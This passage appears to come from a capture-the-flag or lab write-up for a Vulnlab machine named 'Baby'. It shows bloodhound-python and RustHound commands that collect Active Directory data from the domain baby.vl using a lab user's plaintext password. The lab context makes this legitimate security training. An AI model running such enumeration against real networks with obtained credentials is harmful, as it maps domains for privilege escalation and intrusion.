 Collect all BloodHound data using bloodhound-python over LDAP with valid credentials

```bash
bloodhound-python -d baby.vl -u Caroline.Robinson -p Password123! -ns 10.10.101.17 -c all
```

Or 
Collect BloodHound data using RustHound with zipped output and custom filename

```bash
rusthound -d baby.vl -u Caroline.Robinson@baby.vl -p 'Password123!' -f BabyDC.baby.vl -n 10.10.101.17 -z -o rusthound
```

![image.png](/assets/Images/VL_Baby/image%209.png)
